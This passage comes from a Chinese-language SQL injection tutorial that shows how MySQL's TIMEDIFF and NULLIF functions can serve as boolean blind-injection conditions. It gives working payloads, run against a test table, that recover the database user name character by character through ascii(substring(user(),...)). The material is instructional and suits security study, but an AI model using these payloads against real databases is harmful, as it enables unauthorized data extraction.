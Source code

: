 ```plain
| TIMEDIFF(ascii(substring(user(),1,1)), 114) |
+-------------------------------------+
| 00:00:00                             |
+-------------------------------------+
1 row in set

# 匹配成功的时候,因为函数返回了0 0表示False,所以就不查询数据出来了
mysql> SELECT * from test_table where id=1 and TIMEDIFF(ascii(substring(user(),1,1)), 114);
Empty set
```

## 0x05 NULLIF(expr1, expr2)

```plain
NULLIF(expr1, expr2)	比较两个字符串，如果字符串 expr1 与 expr2 相等 返回 NULL，否则返回 expr1
```

### 0x05.1 例子

```plain
# user() 第一位数据转ascii

mysql> select ascii(substring(user(),1,1));
+------------------------+
| ascii(substring(user(),1,1)) |
+------------------------+
|                    114 |
+------------------------+
1 row in set
# user() 第二位数据转ascii

mysql> select ascii(substring(user(),2,1));
+------------------------+
| ascii(substring(user(),2,1)) |
+------------------------+
|                    111 |
+------------------------+
1 row in set
# 表示注入失败的时候

# 匹配不相等的话返回的是 NULLIF 第一个参数的结果值
mysql> SELECT * from test_table where id=1 and NULLIF(ascii(substring(user(),1,1)),111);
+----+-------+
| id | name |
+----+-------+
|  1 | bbb   |
+----+-------+
1 row in set
# 表示注入成功的时候

# 匹配相等会返回 NULL 所以sql不会返回数据
mysql> SELECT * from test_table where id=1 and NULLIF(ascii(substring(user(),1,1)),114);
Empty set
# 获取到的数据转成十进制

mysql> select concat(char('114'),char('111'));
+---------------------------+
| concat(char('114'),char('111')) |
+---------------------------+
| ro                        |
+---------------------------+
1 row in set
```
